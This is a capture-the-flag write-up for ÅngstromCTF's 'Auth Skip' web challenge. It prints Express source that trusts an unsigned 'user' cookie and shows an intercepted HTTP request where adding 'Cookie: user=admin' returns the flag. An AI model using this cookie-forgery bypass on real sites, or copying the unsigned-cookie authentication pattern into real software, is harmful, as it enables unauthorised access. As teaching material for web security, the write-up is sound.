 ```yaml
---
Title: ÅngstromCTF
Date: 2022-05-05 00:00:00 +0000
categories: [Writeups, Ctf]
tags: [ctf, web, cookie, auth]
---
```


# Auth Skip

Goal is to do the legendary "Auth Skip", like in true speedrunner fashion, finding an exploit, conquering the leaderboard!

Given the source code, i began to look at the logic of the cookies used for authentication.

```javascript
const express = require("express");
const path = require("path");
const cookieParser = require("cookie-parser");

const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

app.post("/login", (req, res) => {
    if (
        req.body.username !== "admin" ||
        req.body.password !== Math.random().toString()
    ) {
        res.status(401).type("text/plain").send("incorrect login");
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
    }
});

app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

The vuln lies in the following lines:

```javascript
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
```

We can set our cookie to something like, `user=admin`  and we can ommit the password, as it doesn't require us to provide one.

Providing the username cookie, we are then redirected to the flag at "/"

```javascript
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
```

--- 

## Exploit: Legendary Auth Skip
In burp i intercepted :

```http
GET / HTTP/2
Host: auth-skip.web.actf.co
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
{: .nolineno }

Simply add the cookie to the request

```http
Cookie: user=admin
```
{: .nolineno }

et voilà !

```http
HTTP/2 200 OK
Date: Wed, 04 May 2022 14:44:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Etag: W/"36-QSBEGde8h39PljsFBY/epRs/oqo"
Strict-Transport-Security: max-age=15724800; includeSubDomains

actf{passwordless_authentication_is_the_new_hip_thing}
```
{: .nolineno }

### Aut viam inveniam aut faciam    

